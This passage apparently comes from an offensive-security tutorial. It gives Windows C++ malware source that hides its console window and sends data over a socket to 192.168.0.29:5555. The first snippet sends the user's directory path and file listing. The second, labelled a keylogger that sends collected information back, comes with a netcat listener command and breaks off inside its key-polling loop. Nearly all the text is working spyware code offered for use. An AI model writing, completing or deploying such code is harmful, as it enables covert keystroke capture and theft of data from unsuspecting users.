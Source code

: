 ```c++
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    char* pPath = userDirectory();
    send(server, pPath, sizeof(pPath), 0);

    DIR *dir;
    struct dirent *ent;
    if ((dir = opendir (pPath)) != NULL) {
        while ((ent = readdir (dir)) != NULL) {
        send(server, ent->d_name, sizeof(ent->d_name), 0);
        }
        closedir (dir);
    } else {
        perror ("");
    }
    closesocket(server);
    WSACleanup();
}
```

### Example: keylogger that sends any collected information back

Listen for an incoming connection with `nc -lvp 5555`:

```c++
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

        while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
```